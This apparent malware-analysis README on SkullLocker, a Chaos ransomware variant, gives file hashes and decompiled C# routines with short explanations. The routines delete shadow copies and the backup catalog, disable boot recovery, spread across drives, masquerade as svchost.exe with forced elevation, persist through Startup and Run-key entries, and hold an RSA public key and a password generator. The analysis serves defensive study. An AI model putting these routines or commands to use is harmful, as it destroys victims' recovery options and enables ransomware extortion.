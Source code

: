# SkullLocker-Anlysis
A small Analysis of SkullLocker Code  



#### (SkullLocker is new Variant of Chaos Ransomware )

*IOCS :*

- SkullLocker : 

MD5 : 62e53bc5aa5f2a70a54e328bff51505f
SHA1 : e7deceee97a09d539d81eb91f988ece5e2a2ff51
SHA256 : bb5ca9d8de51734dbd14dc081c7c892d819cd14fafd7ccd62849d70f9e679369

- Chaos :

MD5 : 98274f8ae42ac490c3441b3b14459356
SHA1 : 59a80c57499b6eb5de31fcbf582eeeb1c3b20e9d
SHA256 : d09b875ead838ec256b863b5e8e252d5bca9172b5479b00699ff31b4d745c92b

*Behaviour :*

```cs
private static void deleteShadowCopies()
		{
			Program.runCommand("vssadmin delete shadows /all /quiet & wmic shadowcopy delete");
		}
```

- delete all the shadow copies on the system to prevent users from recovering previous versions of files or folders.

```cs
private static void disableRecoveryMode()
		{
			Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no");
		}
```

- configure the Windows Boot Manager settings to ignore any boot failures and disable the automatic startup repair .

```cs
private static void deleteBackupCatalog()
		{
			Program.runCommand("wbadmin delete catalog -quiet");
		}
```

-  Delete the backup catalog. The backup catalog is a database that contains information about the backups created using Windows Backup . 


```cs
private static string spreadName = "skull.exe";
```

```cs
private static void spreadIt(string spreadName)
		{
			foreach (DriveInfo driveInfo in DriveInfo.GetDrives())
			{
				if (driveInfo.ToString() != "C:\\" && !File.Exists(driveInfo.ToString() + spreadName))
				{
					try
					{
						File.Copy(Assembly.GetExecutingAssembly().Location, driveInfo.ToString() + spreadName);
					}
					catch
					{
					}
				}
			}
		}
```

- the malware spreading itself across the computer's drives except for "C" under the name of skull.exe 

```cs
private static string processName = "svchost.exe";
```

```cs
private static void copyResistForAdmin(string processName)
		{
			string friendlyName = AppDomain.CurrentDomain.FriendlyName;
			string location = Assembly.GetExecutingAssembly().Location;
			Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\\" + friendlyName;
			string text = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\";
			string text2 = text + processName;
			ProcessStartInfo startInfo = new ProcessStartInfo(text2)
			{
				UseShellExecute = true,
				Verb = "runas",
				WindowStyle = ProcessWindowStyle.Normal,
				WorkingDirectory = text
			};
			Process process = new Process();
			process.StartInfo = startInfo;
			if (friendlyName != processName || location != text2)
			{
				if (!File.Exists(text2))
				{
					File.Copy(friendlyName, text2);
					try
					{
						Process.Start(startInfo);
						Environment.Exit(1);
						return;
					}
					catch (Win32Exception ex)
					{
						if (ex.NativeErrorCode == 1223)
						{
							Program.copyResistForAdmin(processName);
						}
						return;
					}
				}
				try
				{
					File.Delete(text2);
					Thread.Sleep(200);
					File.Copy(friendlyName, text2);
				}
				catch
				{
				}
				try
				{
					Process.Start(startInfo);
					Environment.Exit(1);
				}
				catch (Win32Exception ex2)
				{
					if (ex2.NativeErrorCode == 1223)
					{
						Program.copyResistForAdmin(processName);
					}
				}
			}
		}
```

- Copies  Friendlyname (current executable name) if it doesnt already exist to **/AppData/Roaming/** under the name of **svchost.exe** then creates a new ProcessStartInfo object that specifies the process to start and sets the appropriate properties for the process to run with elevated privileges.

```cs
private static void addLinkToStartup()
		{
			string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.Startup);
			string str = Process.GetCurrentProcess().ProcessName;
			using (StreamWriter streamWriter = new StreamWriter(folderPath + "\\" + str + ".url"))
			{
				string location = Assembly.GetExecutingAssembly().Location;
				streamWriter.WriteLine("[InternetShortcut]");
				streamWriter.WriteLine("URL=file:///" + location);
				streamWriter.WriteLine("IconIndex=0");
				string str2 = location.Replace('\\', '/');
				streamWriter.WriteLine("IconFile=" + str2);
			}
		}
```

- also it adds a link file to this  path ( **\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup**)  under **svchost.url** .

```cs
private static void registryStartup()
		{
			try
			{
				RegistryKey registryKey = Registry.CurrentUser.OpenSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", true);
				registryKey.SetValue("Microsoft Store", Assembly.GetExecutingAssembly().Location);
			}
			catch
			{
			}
		}
```

- utilizing the SetValue method to assign the location of the present executable file as the value for the "**Microsoft Store**" key. The objective is to add a registry entry to the Windows registry, which enables the current application to launch automatically during system startup .


##  Encryption :

![Schema](works.png)

- XML string representation of an RSA public key.

```cs
public static string rsaKey()
		{
			StringBuilder stringBuilder = new StringBuilder();
			stringBuilder.AppendLine("<?xml version=\"1.0\" encoding=\"utf-16\"?>");
			stringBuilder.AppendLine("<RSAParameters xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\">");
			stringBuilder.AppendLine("  <Exponent>AQAB</Exponent>");
			stringBuilder.AppendLine("  <Modulus>4On6FTL3V5M4vs3OcxgegY+zBSLFwmoId3WY+pftKnF6iQzRS6axqTFO6ciu1N/JJwU5FKbMx1AauuHO4j0miKeDiKWRiv2O3O2QaVFZhggupZp/P0amGQa9NYG9eHSB7kL5UHFDOgk44EyTTOYeDoA2c9C83YHyPF3/WrkfQrE=</Modulus>");
			stringBuilder.AppendLine("</RSAParameters>");
			return stringBuilder.ToString();
		}
```

- Function to generate a random password with the given length

```cs
public static string CreatePassword(int length)
		{
			StringBuilder stringBuilder = new StringBuilder();
			Random random = new Random();
			while (0 < length--)
			{
				stringBuilder.Append("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/"[random.Next("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/".Length)]);
			}
			return stringBuilder.ToString();
		}
```
